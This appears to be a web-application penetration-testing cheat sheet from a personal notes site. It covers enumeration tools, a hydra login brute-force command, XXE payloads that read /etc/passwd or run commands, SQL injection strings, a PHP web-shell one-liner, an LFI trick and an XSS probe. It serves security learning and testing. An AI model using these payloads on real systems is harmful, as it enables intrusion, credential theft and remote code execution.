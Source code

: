 ```yaml
---
layout: page
title: Web App
permalink: /web/
---
```


# Index

* [Enumeration](#enumeration)
* [Authentication](#authentication)
* [Session Management](#session-management)
* [XML External Entity](#xml-external-entity)
* [SQL Injection](#sql-injection)
* [PHP Injection](#php-injection)
* [Cross Site Scripting](#cross-site-scripting)
* [Deserialization](#deserialization)
* [Other Tools](#other-tools)
* [Methodology](#methodology)

## Enumeration

Enumerating a web application is best performed manually with automated augmentations.

### Spidering

`burpsuite`

### Directory Brute Forcing

`dirbuster`

### Web Server Scanning

`nikto`

### Scraping 

`cewl`

---

## Authentication

### Brute Forcing Online

`hydra`

For example attacking a web login form

`hydra 192.168.1.69 http-form-post "form_login.php:user=^USER^&pass=^PASS^:Bad login" -L users.txt -P pass.txt -o hydra-http-post-attack.txt`


---

## Session Management

---

## XML External Entity

Local file inclusion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Remote code exectuion

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
Above is just proof of concept, other functions exist.

---

## SQL Injection

Suppose a SQL query like below, where parameters are received from user input

```SQL
SELECT id FROM users WHERE username='$username' AND password='$password';
```

If we managed to input data like below we could return unintended data.

```SQL
SELECT username FROM users WHERE username='' or '1'='1' AND password='' or '1'='1'
```

We can also save a request in burp and feed it into `sqlmap` or fuzz with `sqlmap` directly.
```
sqlmap
```

---

## PHP Injection

If we can inject the below string anywhere interpreted as php we get RCE.

`<?php system($_GET['cmd']); ?>`

If there is LFI the below might work

`site.php?lfi_path=php://input%00`

Other things to try https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

---

## Cross Site Scripting

Wherever user input is reflect in the site test for XSS with:

``` Javascript
    <script>alert('x')</script>
```

---

## Deserialization

---

## Other Tools

* FoxyProxy - simple proxy switcher for firefox
* w3af - Web Application Scanner
* wikto/Nikto - Web server scanner
* Firebug/Chrome Dev tools - Inspecting client side
* Hydra - Password brute forcing
* wpscan - Scan wordpress
* droopscan - scan Drupal & Silverstripe CMS

### Unix Commands

* wget - easily download files
* curl - can make post requests too
* ncat - tcp/ip swiss army knife
* socat - two way netcat
* stunnel - ssl tunnel

---

## Methodology

See:
* The Web Application Hacker's Handbook - Chapter 21
* https://jdow.io/blog/2018/03/18/web-application-penetration-testing-methodology/
